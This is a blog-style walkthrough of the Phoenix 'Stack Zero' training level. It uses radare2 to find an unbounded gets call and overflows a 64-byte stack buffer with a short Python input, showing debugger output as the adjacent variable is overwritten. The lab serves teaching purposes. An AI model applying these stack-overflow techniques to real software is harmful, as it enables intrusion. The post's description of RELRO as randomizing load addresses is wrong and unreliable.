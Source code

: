```yaml
---
layout: post
title:  "Phoenix Stack Zero"
date:   2019-10-09 22:00:00 +0300
categories: reverse-engineering binary-exploitation exploit-education exploit-education-phoenix
---
```

Phoenix is a virtual machine that can be obtained from [exploit.education][exploit-education]. It provides an educational environment so that one can practice on their skills. For additional details, visit the website.

In case of reluctancy due to the risk of downloading an unknown virtual machine, Debian packages are also provided.

Stack Zero, which is the first level, introduces the legendary stack-based buffer overflow.

In order to get a glimpse of what the binary is all about, [rabin2][rabin2-docs] comes to the rescue:

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-zero
arch     x86
baddr    0x8048000
binsz    3394
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

What can be gathered from the above info are the following:
* The binary is a 32-bit Linux ELF (`arch x86`, `bintype elf`, `bits 32`, `class ELF32`, `os linux`..).
* The endianness is little (`endian little`).
* It wasn't compiled with the Stack Smashing Protector (SSP) compiler feature (`canary false`), thus allowing stack-based buffer overflow.
* It wasn't compiled with the Data Execution Prevention (DEP) or No-Execute (NX) compiler feature (`nx false`), which cannot prevent shellcode execution.
* It wasn't compiled with the RELocation Read-Only compiler feature (`relro no`), which means that the binary and all of its dependencies are not loaded into randomized locations within virtual memory each time it is executed. This feature hinders Return Oriented Programming a lot.

Considering the above information, if the binary accepts input via environment variables, arguments or STDIN, it can be exploited.

To open the binary, `r2` can be used.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-zero
> aas
{% endhighlight %}

It is not recommended to use `aaa` or `-A` as an argument when opening a binary, because it could take a really long time if that binary is big. Using radare2, one needs to know what analysis is more beneficial at every stage of reverse engineering a binary. In this particular case, `aas`, which uses binary header information to find public functions, is good enough.

{% highlight nasm %}
> afl
0x080482b4    1 17           sym._init
0x08048470    7 277  -> 112  sym.frame_dummy
0x08048520    5 49           sym.__do_global_ctors_aux
0x08048551    1 12           sym._fini
0x080483f0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   46 498  -> 594  sym..interp
0x08048320    1 62           entry0
0x08048310    1 6            sym.imp.__libc_start_main
0x08048630    3 62           loc.__GNU_EH_FRAME_HDR
0x08048688    1 41           obj.__EH_FRAME_BEGIN
0x08048360    4 49   -> 40   sym.deregister_tm_clones
0x080484b5    4 106          main
0x080482f0    1 6            sym.imp.puts
{% endhighlight %}

There are a couple options available to view the disassembly at a particular address. One that can be used is `s` to seek to that address and then use `pdf` to disassemble the current function, or `VV` to use the Visual Graph.

{% highlight nasm %}
> s main
> pdf
/ (fcn) main 106
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048354
|           0x080484b5      8d4c2404       lea ecx, [arg_4h]
|           0x080484b9      83e4f0         and esp, 0xfffffff0
|           0x080484bc      ff71fc         push dword [ecx - 4]
|           0x080484bf      55             push ebp
|           0x080484c0      89e5           mov ebp, esp
|           0x080484c2      51             push ecx
|           0x080484c3      83ec54         sub esp, 0x54
|           0x080484c6      83ec0c         sub esp, 0xc
|           0x080484c9      6860850408     push str.Welcome_to_phoenix_stack_zero__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048560 ; "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"
|           0x080484ce      e81dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484d3      83c410         add esp, 0x10
|           0x080484d6      c745f4000000.  mov dword [var_ch], 0
|           0x080484dd      83ec0c         sub esp, 0xc
|           0x080484e0      8d45b4         lea eax, [var_4ch]
|           0x080484e3      50             push eax
|           0x080484e4      e8f7fdffff     call sym.imp.gets           ; sym..interp+0x1cc
|           0x080484e9      83c410         add esp, 0x10
|           0x080484ec      8b45f4         mov eax, dword [var_ch]
|           0x080484ef      85c0           test eax, eax
|       ,=< 0x080484f1      7412           je 0x8048505
|       |   0x080484f3      83ec0c         sub esp, 0xc
|       |   0x080484f6      68ac850408     push str.Well_done__the__changeme__variable_has_been_changed ; 0x80485ac ; "Well done, the 'changeme' variable has been changed!"
|       |   0x080484fb      e8f0fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048500      83c410         add esp, 0x10
|      ,==< 0x08048503      eb10           jmp 0x8048515
|      |`-> 0x08048505      83ec0c         sub esp, 0xc
|      |    0x08048508      68e4850408     push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again ; 0x80485e4 ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"
|      |    0x0804850d      e8defdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x08048512      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048503
|      `--> 0x08048515      83ec0c         sub esp, 0xc
|           0x08048518      6a00           push 0
\           0x0804851a      e8e1fdffff     call sym.imp.exit           ; sym..interp+0x1ec
{% endhighlight %}

There are a few things that can be seen from the disassembled main function:
1. There are two local variables:
    * `var_4ch`, which is the buffer where the input from STDIN is saved at and it has a size of `0x4c-0xc=0x40` (64 bytes in decimal).
    * `var_ch`, which is a 32-bit integer.
1. There is a call to `gets` with `var_4ch` as an argument at `0x080484e4`. `gets` does not restrict the size of bytes that are to be read and is, thus, vulnerable to stack-based buffer overflow.
1. The objective is to change the value of `var_ch`, which is tested at address `0x080484ef`.

With that in mind, to exploit this the input must have a size of, at least, 65 bytes (64 is the size of the buffer and to overwrite the value of `var_ch` one more byte at minimum is needed).

Before opening the binary in debugger mode using radare2, a rarun2 profile is needed so that the input can be read from the binary. In order to do that, a file needs to be created with the following contents:

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0    # Replace `/dev/pts/0` with the output of the command `tty`.
stdin=./pattern     # Replace `./pattern` with the full path to the file that
                    # contains the input to be read from the binary.
{% endhighlight %}

One more thing that is essential is a file that contains the input. For that, python3 is going to be used.

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"AAAA")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-zero -e dbg.profile=myProfile.rr2
{% endhighlight %}

To showcase that the binary is indeed vulnerable, a breakpoint before the call to `gets` is necessary. That can be done by simply executing `db` followed by the address and then `dc` to continue until the breakpoint is hit.

{% highlight plaintext %}
> aas
> db 0x080484e4
> dc
{% endhighlight %}

Before calling `gets`, it is a good idea to check the value of `var_ch`. This can be accomplished by first checking the value of the `ebp` register, via `dr`, and then viewing the hexdump at address `ebp-0xc`, via `px/xw`.

{% highlight nasm %}
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xff8c7f90
edx = 0x00000000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e4
eflags = 0x00000296
oeax = 0xffffffff
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x00000000                                   ....
{% endhighlight %}

To execute the next instruction by stepping over, simply use `dso`.

{% highlight nasm %}
> dso
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e9
eflags = 0x00000286
oeax = 0xffffffff
> px/24xw 0xff8c8040
0xff8c8040  0xff8c805c 0x00000000 0x0000006f 0x00000010  \.......o.......
0xff8c8050  0x080482b4 0x08048551 0x00000000 0x58585858  ....Q.......XXXX
0xff8c8060  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8070  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8080  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8090  0x58585858 0x58585858 0x58585858 0x41414141  XXXXXXXXXXXXAAAA
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x41414141                                   AAAA
{% endhighlight %}

As shown above, the value of `var_ch` is indeed overwritten.

{% highlight plaintext %}
> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
The binary was not compiled with the necessary features that would otherwise prevent stack-based buffer overflows and contains a call to `gets`, which does not account the size of bytes to be read from STDIN. As such, one needs to account the size of the buffer and simply input more bytes than it can actually hold so that the stack overflows.

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/
